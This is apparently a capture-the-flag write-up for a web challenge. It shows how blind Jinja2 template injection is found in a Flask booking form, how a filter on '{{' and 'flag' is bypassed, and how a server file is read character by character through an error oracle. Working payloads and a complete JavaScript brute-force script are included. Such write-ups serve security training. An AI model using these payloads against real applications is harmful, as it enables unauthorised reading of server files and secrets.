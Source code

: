 # Jinja ninja

- Road to Valhalla part 2
- hard

In part 1 of Road to Valhalla, you managed to capture another drawing, with a note on it.

> If you seek to find Valhalla, visit this website, and buy your ticket now: https://jinja-ninja.secchallenge.crysys.hu

As you check the website, it feels a bit fishy. As a citizen of the wastes, you feel it as your duty to check if the travel agency is valid. Find a way to access files on the server you might find coordinates of Valhalla.

https://jinja-ninja.secchallenge.crysys.hu

_author: Pepe_

## Notes
{% raw %}
<del>**I could not solve this challenge**</del>

`Jinja` instantly triggers me to think about SSTI and Flask. Sadly, I could not find *ANY* reflection on the webpage we are given, it just returned the same page no matter what I've sent to it.

(Just solved it after writing those lines above)

Basically, we don't have a reflection, so we can't simply confirm if we have a SSTI, but the name is a strong hint to that.

For most form data, you get `Sorry site under construction booking is not available.` as a response.

I've tried injecting `{{5*5}}` as any parameter, and I've got `The WAF catched that one.` - so some part of that is filtered, and it turns out that `{{` and `flag` are forbidden in the input.

After googling `flask blind ssti` I've found [this page](https://gist.github.com/camas/d11da038562e6e4547e9f5669d2f6cfe), witch details a method of bypassing the `{{` filter.

That page's method kinda works here, but we still don't get anything back. I've tried `{% for i in range(5/0) %}1{% endfor %}` and got `Something went wrong, try again later!` - so we can leak one bit of information at a time.

I was not sure where can the flag be, my initial guess was the `config` oject. `{% for i in range(5 if config else 5/0) %}1{% endfor %}` confirmed it exits, but it had only one key (`{% for i in range(5 if [config.keys()][1] else 5/0) %}1{% endfor %}`), and that was `ENV` (`{% for i in range(5 if config["ENV"]=="production" else 5/0) %}1{% endfor %}`).

From the same gist I've learned that I can get access to some of the globals, so I've tried opening the file `flag`. Bypassing the filtering for `flag` was trivial: `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()) else 5/0) %}1{% endfor %}`

So we can just open the file! Let's check the first character: `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()).read()[0]=="c" else 5/0) %}1{% endfor %}` - `c` as we expected from the flag format.

I've took some time to get it's length by binary-searching from 500, and found it's 145. After that, I've wrote a script to use the previous tactic to get the full flag.

Sadly, my script (written in python) did not work for some reason, so I re-wrote it in JS and copy-pasted it in the console:

```js
const printable = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c";

async function solve(length = 145) {
    let FLAG = "";
    while (FLAG.length < length) {
        for (let c of printable) {
            let formData = new FormData();
            const payload = `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()).read()[${FLAG.length}]=="${c}" else 5/0) %}1{% endfor %}`;
            //console.log(payload);
            formData.append('name', payload);
            formData.append('email', '');
            formData.append('faction', '');
            formData.append('profession', '');
            formData.append('preferences', '');
            
            const resp = await fetch("submit",{body: formData,method: "post"})
            const text = await resp.text();
            if (text.includes("Sorry site under construction")) {
                FLAG = FLAG + c;
                console.log(FLAG);
                break;
            }
        }       
    }
}
```
{% endraw %}
And that just got me the flag...